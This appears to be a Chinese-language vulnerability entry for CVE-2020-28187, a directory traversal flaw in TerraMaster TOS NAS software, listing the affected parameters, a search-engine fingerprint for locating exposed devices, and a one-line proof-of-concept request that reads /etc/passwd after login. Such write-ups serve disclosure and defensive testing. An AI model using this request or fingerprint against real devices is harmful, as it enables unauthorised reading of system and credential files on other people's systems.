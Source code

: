 # TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

```
TerraMaster TOS < 4.2.06
```

## 网络测绘

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

登陆后访问，验证漏洞的POC为



```plain
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```



![](images/202202101948100.png)